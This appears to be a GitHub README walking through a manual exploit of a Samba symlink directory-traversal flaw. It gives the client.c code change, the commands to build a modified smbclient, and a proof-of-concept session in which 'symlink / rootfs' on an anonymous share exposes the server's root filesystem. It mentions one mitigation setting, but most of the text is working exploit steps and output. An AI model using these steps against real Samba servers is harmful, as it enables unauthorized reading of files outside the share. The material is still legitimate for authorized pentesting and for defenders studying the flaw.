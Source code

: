 # Symlink-Directory-Traversal-smb-manually


Samba symlink traversal manual exploit

### Introduction 

Samba is prone to a directory-traversal vulnerability because the application fails to sufficiently sanitize user-supplied input, Exploits would allow an attacker to access files outside of the Samba user's 	root directory to obtain sensitive information and perform other attacks.
Administrators should be careful and set 'wide links = no' in the '[global]' section of 'smb.conf.
 
A proof of concept of Symlink Directory Traversal on Samba, here i will explain how to install the smbclient on an external location to use for the exploitation and also what to change.

The original Manually exploitation explained in the link ( https://www.exploit-db.com/exploits/33599) doesn't work without adding an other code line in the client.c

### First step

We have to download a samba source code from the forge, i used the version 3.4.5, here you can find the download link ( https://download.samba.org/pub/samba/stable/)

```
$ tar -xvzf samba-3.4.5.tar.gz
$ cd samba-3.4.5/source3/client/
```
	

### Modification of client.c

You have to modify this file like in the url  ( https://www.exploit-db.com/exploits/33599) and also adding the line like below :

*************
	targetname = talloc_asprintf(ctx,"%s",buf);   // Add this to remove the prepending //host/share 
	if (!cli_unix_symlink(targetcli, targetname, newname)) {
		d_printf("%s symlinking files (%s -> %s)\n",
			cli_errstr(targetcli), newname, targetname);
		return 1;
	}
**********************

### New client.c file

You can replace the old client.c with the new one [here](https://github.com/roughiz/Symlink-Directory-Traversal-smb-manually/blob/master/client.c)

### Install Package externally to use for your pentest tests

In my case i want to use this  smb client modified version just for my pentest tests, so the idea is to install it in a directory instead of a global installation.

We will use the configure file to create our Makefile with the dir installation location like :
```
$ cd samba-3.4.5/source3/
$ ./configure --prefix=/path/to/destination/directory/installation
$ make && make install
$ cd /path/to/destination/directory/installation/bin
```

We have to specify the library location in our bash env like :

```
$ export LD_LIBRARY_PATH="/path/to/destination/directory/installation/lib:$LD_LIBRARY_PATH"
```
And finnaly run smbclent :

```
$ ./smbclient //192.169.1.12/Share_Name -N

```
### Proof of concept

```
$ ./smbclient //192.169.1.12/Share_Name -N

smb: \> posix
Server supports CIFS extensions 1.0
Server supports CIFS capabilities acls pathnames
smb: \> ls
  .                                   D        0  Sun Jan 13 15:13:58 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
		61335 blocks of size 131072. 50251 blocks available

smb: /> symlink / rootfs
smb: /> ls
  .                                   D        0  Sun Jan 13 15:54:10 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
  rootfs                              D        0  Wed Aug 26 11:54:18 2009

		61335 blocks of size 131072. 50251 blocks available
smb: /> cd rootfs/
smb: /rootfs/> ls
  .                                   D        0  Wed Aug 26 11:54:18 2009
  ..                                  D        0  Wed Aug 26 11:54:18 2009
  cdrom                               D        0  Thu Sep  6 01:43:19 2007
  var                                 D        0  Thu Sep  6 01:45:53 2007
  selinux                             D        0  Wed Mar  7 23:56:09 2007
  home

```

